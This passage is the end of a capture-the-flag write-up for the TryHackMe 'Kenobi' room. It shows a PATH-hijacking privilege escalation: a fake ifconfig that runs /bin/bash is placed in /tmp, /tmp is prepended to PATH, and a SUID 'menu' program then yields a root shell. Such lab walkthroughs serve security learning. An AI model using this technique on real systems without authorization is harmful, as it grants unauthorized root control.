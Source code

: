 ```terminal
          RX packets:232 errors:0 dropped:0 overruns:0 frame:0
          TX packets:232 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:16160 (16.1 KB)  TX bytes:16160 (16.1 KB)
```

With that, we can try to create our own `ifconfig` binary that will run `/bin/bash` command once called by `menu`, we need to put it in the /tmp directory, give it the execute permission and add the /tmp directory to the **PATH** variable.

```terminal
kenobi@kenobi:~$ echo '/bin/bash' > /tmp/ifconfig
kenobi@kenobi:~$ chmod +x /tmp/ifconfig
kenobi@kenobi:~$ export PATH=/tmp:$PATH
```

Now if we run `menu`with choice 3, we should have root:

```terminal
kenobi@kenobi:~$ menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :3
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:~# ls /root
root.txt
```

We got root! And just like that, we have PWNed [Kenobi](https://tryhackme.com/room/kenobi). Hope you guys enjoyed it, and see you in the next hack.
